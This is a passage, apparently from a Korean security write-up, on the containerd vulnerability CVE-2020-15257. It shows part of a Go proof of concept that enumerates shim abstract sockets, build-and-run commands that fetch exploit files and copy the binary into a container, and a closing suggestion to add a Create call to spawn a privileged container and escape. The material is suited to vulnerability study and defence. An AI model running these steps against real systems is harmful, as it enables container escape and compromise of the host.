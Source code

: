 ```go
}

func main() {
	matchset := make(map[string]bool)
	socks, err := getShimSockets()
	if err != nil {
		log.Fatalln(err)
	}
	for _, b := range socks {
		sockname := string(b)
		if _, ok := matchset[sockname]; ok {
			continue
		}
		log.Println("try socket:", sockname)
		matchset[sockname] = true
		if exp(sockname) {
			break
		}
	}

	return
}
```
<div class="link-url">
<a href="https://github.com/summershrimp/exploits-open/blob/9f2e0a28ffcf04ac81ce9113b2f8c451c36fe129/CVE-2020-15257/main.go" target="_blank">https://github.com/summershrimp/exploits-open/blob/9f2e0a28ffcf04ac81ce9113b2f8c451c36fe129/CVE-2020-15257/main.go</a>
</div>

해당 코드는 추상 소켓에 접근하여 Client 생성 이후 지원하는 Shim API 중 State 함수를 이용하여 대상 컨테이너의 State를 확인하는 코드입니다.

#### 빌드 및 실행 방법 

POC 빌드 및 실행방법은 아래와 같습니다. 

```bash
$ mkdir CVE-2020-15257 & cd CVE-2020-15257
$ vi main.go                                               // Paste POC here
$ go get github.com/containerd/ttrpc
$ go get -v github.com/containerd/containerd
$ wget https://raw.githubusercontent.com/summershrimp/exploits-open/main/CVE-2020-15257/shim.pb.go
$ go build .
$ sudo docker cp CVE-2020-15257 [your_container_id]:/tmp    // Copy to container & exec 
```

(* 실행되는 컨테이너는 실행가능한 Containerd 버전 및 --net=host 옵션을 적용해야 합니다.)

<br />

## 익스플로잇 접근 방향

상단의 POC코드에서 Create 함수를 추가하여 Privileged Container를 생성하는 방식 등을 통해 컨테이너 이스케이프 및 익스플로잇을 진행할 수 있습니다. 

